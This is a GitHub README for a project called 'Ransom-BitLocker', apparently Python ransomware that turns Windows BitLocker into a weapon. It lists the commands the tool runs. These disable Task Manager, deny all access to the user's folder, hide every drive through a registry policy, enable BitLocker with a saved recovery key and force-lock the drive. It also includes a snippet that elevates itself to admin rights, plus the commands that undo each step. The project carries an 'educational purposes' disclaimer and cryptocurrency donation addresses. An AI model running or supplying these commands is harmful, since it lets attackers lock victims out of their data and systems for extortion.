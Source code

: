 <div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption)</b></h1>
  <img src="Bitlocker.png" alt="BitLocker" width="300">
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests

## Run Command
- Make sure to run with admin privileges for cmd or Add this code at the top of `EncryptionBitLocker.py` and `DecryptionBitLocker.py` to ensure admin privileges:
  ```python
  def run_as_admin():
      if ctypes.windll.shell32.IsUserAnAdmin():
          return
      else:
          ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
          sys.exit()
  run_as_admin()
 ```cmd
  python EncryptionBitLocker.py
  ```
  ```cmd
  python DecryptionBitLocker.py
  ```
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
